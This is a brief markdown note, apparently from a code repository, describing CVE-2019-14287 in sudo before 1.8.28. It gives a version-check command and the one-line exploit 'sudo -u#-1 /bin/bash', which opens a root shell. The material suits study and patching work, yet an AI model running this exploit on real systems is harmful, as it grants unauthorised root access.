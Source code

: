 # CVE-2019-14287

 There was a public CVE release in November 2019 about how there were other ways to enter root besides `root` that got around this restriction. This impacts `sudo` versions before 1.8.28.

find sudo version:

`sudo --version`

exploit:

`sudo -u#-1 /bin/bash`

